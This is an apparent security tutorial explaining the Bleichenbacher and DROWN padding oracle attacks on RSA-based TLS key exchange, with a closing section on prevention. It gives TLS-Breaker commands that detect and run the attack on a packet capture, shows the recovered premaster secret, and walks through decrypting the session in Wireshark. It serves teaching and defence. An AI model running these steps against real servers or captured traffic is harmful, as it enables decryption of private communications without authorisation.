

## Bleichenbacher Attack

Bleichenbacher is a padding oracle attack, but unlike POODLE, it targets asymmetric RSA encryption rather than symmetric CBC. Specifically, it exploits PKCS#1 v1.5 padding, a scheme commonly combined with RSA to make encryption non-deterministic, encrypting the same plaintext twice should always yield different ciphertexts, achieved by prepending random padding bytes before encryption.

### Attack Mechanics

The attacker sends a large number of specially crafted, modified ciphertexts to the server. The server decrypts each one and checks whether the resulting PKCS#1 padding is structurally valid. If the server's response differs depending on whether padding was valid or not, whether through an explicit error, a different response structure, or a timing difference, this becomes an oracle the attacker can query repeatedly to recover information about the original plaintext, byte by byte, eventually reconstructing it in full.



### Conditions for Exploitation

In a TLS 1.2 context, this attack only applies when the negotiated cipher suite uses RSA as the key exchange algorithm, meaning the premaster secret itself was RSA-encrypted using the server's public key during the handshake. The server must also leak padding validity in some observable way, either through verbose error messages or a measurable timing side channel. If both conditions hold, a successful Bleichenbacher attack fully recovers the session's premaster secret, allowing the attacker to decrypt the entire captured TLS session retroactively.

### Identifying and Exploiting with TLS-Breaker

TLS-Breaker's Bleichenbacher module can analyze a packet capture or connect directly to a live target to test for the vulnerability:

```bash
java -jar apps/bleichenbacher-1.0.1.jar -pcap ./capture.pcap
```

```
Found 1 servers from the pcap file.
┌─────────────┬──────────────────┬────────┬─────────────┐
│Server Number│Host Address      │Hostname│Session Count│
├─────────────┼──────────────────┼────────┼─────────────┤
│            1│192.168.56.10:443 │-       │            2│
└─────────────┴──────────────────┴────────┴─────────────┘
Do you want to check the vulnerability of the server? (y/n):
y

Found a behavior difference within the responses. The server could be vulnerable.
Vulnerable:true
```

Once confirmed vulnerable, the full attack can be executed to recover the premaster secret directly, this can take a significant amount of time given the volume of queries required:

```bash
java -jar apps/bleichenbacher-1.0.1.jar -pcap ./capture.pcap -executeAttack
```

```
Bleichenbacher - ====> Solution found!
Total # of queries so far: 20417
214c0450195024ee2d0ba682bd92b0acd4e837a8abc60ee56a64d6f48fe2d511c6aa3cf...
```

### Extracting the Premaster Secret

The recovered value includes PKCS#1 padding that must be stripped. The actual premaster secret is always the final 48 bytes, and its first two bytes encode the TLS version the client originally offered, `0303` corresponds to TLS 1.2, which serves as a sanity check that extraction succeeded:

```bash
echo -n 214c0450...043a8 | tail -c 96
```

```
030346e1075d56f38282aeacf9e9fa027f22bbfbe4a8eccaefe39e5b55d94ffc3852d6ae6254775301b719d2d5e043a8
```

### Decrypting the Session in Wireshark

With the premaster secret recovered, the full session can be decrypted. Open the capture and extract the client's random nonce from the `ClientHello` message's `Random` field, copying it as a hex stream.

Build a key log file using this format:

```
PMS_CLIENT_RANDOM <client_random> <premaster_secret>
```

```
PMS_CLIENT_RANDOM fa372f5ada56e73ac55da8ab64abe6e544942a86a399b688728480006591e31d 030346e1075d56f38282aeacf9e9fa027f22bbfbe4a8eccaefe39e5b55d94ffc3852d6ae6254775301b719d2d5e043a8
```

In Wireshark, point to this file under `Edit > Preferences > Protocols > TLS > (Pre)-Master-Secret log filename`. Traffic that previously showed only `Application Data` and `Encrypted Alert` now decodes into the underlying plaintext HTTP exchange, `GET / HTTP/1.1`, `200 OK`, and so on.

---

## DROWN Attack

DROWN (Decrypting RSA with Obsolete and Weakened eNcryption) is a specialized variant of the Bleichenbacher attack targeting SSL 2.0 specifically. It requires intercepting a large volume of connections, then running a Bleichenbacher-style attack against an SSL 2.0 endpoint using purpose-crafted handshake messages.

SSL 2.0's relevance here comes from its export-grade cipher suites, intentionally weakened encryption algorithms mandated by 1990s-era US export regulations. These were weak even by the standards of the time for parties without major computational resources, and modern hardware has long since made breaking them trivial for any attacker. DROWN additionally leverages known bugs present in older OpenSSL versions, which further accelerates the attack.

### Real-World Relevance

|Factor|Status|
|---|---|
|SSL 2.0 support|Deprecated for decades, disabled by default in modern crypto libraries|
|Real-world exposure|Rare, but occasionally found on legacy or misconfigured servers|
|Impact if exploitable|Full compromise of RSA-based key exchange, same as classic Bleichenbacher|

Encountering a production server with SSL 2.0 still enabled is uncommon today, but not unheard of, particularly on legacy infrastructure that has not been actively maintained.

---

## Prevention

DROWN is prevented simply by disabling SSL 2.0 entirely, most current operating systems and TLS libraries already exclude it by default, which is why the attack has become rare in practice.

Bleichenbacher attacks are mitigated by ensuring the server never reveals, in any form, whether PKCS#1 padding validation succeeded or failed, no distinguishing error message and no timing difference between valid and invalid padding cases. This class of vulnerability has largely been patched in maintained TLS stacks, so keeping server software and crypto libraries up to date is generally sufficient protection against the classic attack.